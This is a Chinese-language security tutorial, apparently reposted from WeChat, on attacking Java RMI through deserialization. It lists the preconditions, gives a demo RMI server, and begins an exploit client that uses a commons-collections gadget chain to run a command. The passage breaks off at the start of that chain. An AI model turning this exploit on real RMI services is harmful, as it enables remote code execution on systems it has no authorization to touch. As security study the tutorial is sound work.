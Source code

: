 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/F9O4Vw43wUr5jYwZcFe6_g)

### 0x01 前言

上一章介绍了 rmi 的基本概念，以及浅显的提了一下 rmi 的利用点。这一章将结合具体的代码与实践来讲解攻击 rmi 的方式。

### 0x02 利用反序列化攻击 RMI

这也是我们在上文中提到的攻击方式，这个攻击有两个前提：

1.  rmi 服务端提供了接收 Object 类型参数的远程方法
    
2.  rmi 服务器的 lib 或者说 classpath 中有存在 pop 利用链的 jar 包，例如 3.1 版本的 commons-collections.jar
    

我们直接来看一个案例 (RMI server 还是用的上一章的那个 demo)：

Server 端：

```
package server;
import model.Hello;
import model.impl.Helloimpl;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class Server {
    public static void main(String[] args) throws RemoteException{
        // 创建对象
        Hello hello = new Helloimpl();
        // 创建注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象到注册表，并给他取名为hello
        registry.rebind("hello", hello);
    }
}
```

现在，我们需要构造一个恶意的客户端，向服务端发送一个恶意的序列化对象，如下：

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
public class RMIExploit {
    public static void main(String[] args) throws Exception {
        // 远程RMI Server的地址
        String ip = "192.168.201.24";
        int port = 1099;
        // 要执行的命令
        String command = "gnome-calculator";
        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
```